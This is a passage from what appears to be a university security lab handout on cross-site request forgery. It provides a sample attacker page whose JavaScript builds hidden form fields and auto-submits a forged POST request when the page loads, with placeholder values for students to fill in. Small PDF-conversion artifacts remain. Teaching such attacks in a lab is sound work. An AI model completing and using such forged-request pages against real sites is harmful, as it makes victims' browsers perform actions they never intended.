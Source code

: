 After understanding the structure of the request, you need to be able to generate the request from your attacking web page using JavaScript code. To help you write such a JavaScript program, we provide a sample code in the following code fence. You can use this sample code to construct your malicious web site for the CSRF attacks. This is only a sample code, and you need to modify it to make it work for your attack.

```html
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='****'>";
    fields += "<input type='hidden' name='briefdescription' value='****'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]'
                                    value='2'>";                         (*@\ding{192}@*)
    fields += "<input type='hidden' name='guid' value='****'>";

    // Create a <form> element.
    var p = document.createElement("form");

    // Construct the form
    p.action = "http://www.example.com";
    p.innerHTML = fields;
    p.method = "post";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}


// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
```

In Line, the value `2` sets the access level of a field to public. This is needed, otherwise, the access level will be set by default to private, so others cannot see this field. It should be noted that when copy-and-pasting the above code from a PDF file, the single quote character in the program may become something else (but still looks like a single quote). That will cause syntax errors. Replacing all the single quote symbols with the one typed from your keyboard will fix those errors.
